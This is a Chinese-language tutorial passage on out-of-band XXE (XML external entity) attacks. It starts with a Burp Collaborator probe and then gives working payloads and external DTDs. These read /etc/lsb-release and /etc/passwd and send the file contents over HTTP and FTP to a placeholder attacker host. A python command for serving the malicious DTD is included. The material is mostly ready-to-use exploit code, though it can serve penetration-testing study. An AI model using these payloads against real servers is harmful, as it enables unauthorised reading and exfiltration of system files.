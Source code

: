 ## 4.OUT OF BAND

### 基础测试

1. 使用 burp 的collaborator 然后单击`copy the payload to clipboard`
2. 将下面的code放入xml文件，然后上传：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "http://burp.collab.server" >]><foo>&xxe;</foo>
```

看看是否发送了请求
[![img](https://xzfile.aliyuncs.com/media/upload/picture/20181213170931-cd090c6e-feb6-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20181213170931-cd090c6e-feb6-1.png)
成功后，再利用其他payload

### 读文件

```
wing.xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM
  "file:///etc/lsb-release">
  <!ENTITY % dtd SYSTEM
  "http://<evil attacker hostname>:8000/evil.dtd">
  %dtd;
]>
<data>&send;</data>
vps->evil.dtd
<!ENTITY % all "<!ENTITY send SYSTEM 'http://<evil attacker hostname>:8000/?collect=%file;'>"> %all;
host in dtd:
python -m SimpleHTTPServer 8000
```

### 使用FTP读文件

```
evil.xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE a [
<!ENTITY % asd SYSTEM "http://<evil attacker hostname>:8090/xxe_file.dtd">
%asd;
%c;
]>
<a>&rrr;</a>
将dtd文件放在VPS上:
<!ENTITY % d SYSTEM "file:///etc/passwd">                                     
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://<evil attacker hostname>:2121/%d;'>">
```
